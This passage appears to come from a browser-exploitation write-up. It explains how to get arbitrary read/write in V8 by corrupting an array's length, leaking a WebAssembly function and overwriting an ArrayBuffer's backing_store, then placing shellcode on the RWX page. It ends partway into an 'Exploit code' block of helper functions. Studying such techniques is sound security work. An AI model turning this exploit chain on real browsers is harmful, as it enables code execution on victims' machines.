 

So, what value do we need to read and what value do we need to write?

On Desktop context, you need to read wasm assembly function object to find rwx page.

And you need to write arbitrary valid address for making arbitrary R/W primitives.



To make arbitrary R/W, we need to corrupt ArrayBuffer's backing_store.

At this phase, someone can ask like this, "Oh, why don't we use Array as Arbitrary R/W primitives?"

Because, ArrayBuffer's backing_store doesn't consider any property except for backing_store pointer itself.

But, in case of Array object, we need to consider element's map property and length property.



Yeah it's also possible to make arbitrary R/W via Array, but not efficient.

So, we corrupt ArrayBuffer's backing_store :)

Let's make code like this.



```javascript
let victim = [1.1, 2.2, 3.3];
let leaked = [wasm_f, wasm_f, wasm_f, wasm_f];
let ab = new ArrayBuffer(0x1000);
```



If we successfully corrupt victim's length property, we can leak `wasm_f` and we can set arbitrary address to `ab's backing_store` property.



And then, we need to traverse `wasm_f` 's object space to find rwx page.

If you find rwx page, just set shellcode to that page, and run wasm assembly function.



**Exploit code**

```javascript
function gc() { for (let i = 0; i < 0x10; i++) { new ArrayBuffer(0x1000000); } }


var f64 = new Float64Array(1);
var u32 = new Uint32Array(f64.buffer);


function d2u(v) {
  f64[0] = v;
  return u32;
}


function u2d(lo, hi) {
  u32[0] = lo;
  u32[1] = hi;
  return f64[0];
}


function hex(lo, hi) {
  if( lo == 0 ) {
    return ("0x" + hi.toString(16) + "-00000000");
  }
  if( hi == 0 ) {
    return ("0x" + lo.toString(16));
```